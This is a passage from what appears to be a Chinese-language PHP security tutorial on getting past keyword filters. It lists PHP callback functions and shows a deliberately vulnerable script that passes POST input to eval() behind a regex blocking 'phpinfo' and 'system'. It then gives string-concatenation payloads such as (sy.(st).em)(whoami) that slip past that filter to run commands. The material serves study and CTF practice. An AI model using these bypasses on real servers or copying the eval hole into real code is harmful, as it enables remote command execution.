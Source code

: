 > 



```
call_user_func ( callable $callback [, mixed $parameter [, mixed $... ]] ) : mixed

```

> 



```
call_user_func_array ( callable $callback , array $param_arr ) : mixed

```

> 



```
array_filter ( array $array [, callable $callback [, int $flag = 0 ]] ) : array

```

> 



```
usort ( array &amp;$array , callable $value_compare_func ) : bool

```

## 字符串拼接绕过

> 
字符串拼接绕过适用于绕过过滤具体关键字的限制<br/> 适用PHP版本：PHP&gt;=7


```
&lt;?php
highlight_file(__FILE__);
error_reporting(0);
$cmd = $_POST['cmd'];
if (isset($cmd)) {
    if (preg_match('/phpinfo|system/i', $cmd)) {
        die('Hacker!!!Fuck_you!!!');
    }else {
        eval($cmd);
    }
}else {
    echo "Welcome!!!";
}
?&gt;

```

```
Payload：

(p.h.p.i.n.f.o)();
(sy.(st).em)(whoami);
(sy.(st).em)(who.ami);
(s.y.s.t.e.m)("whoami");
.......

```
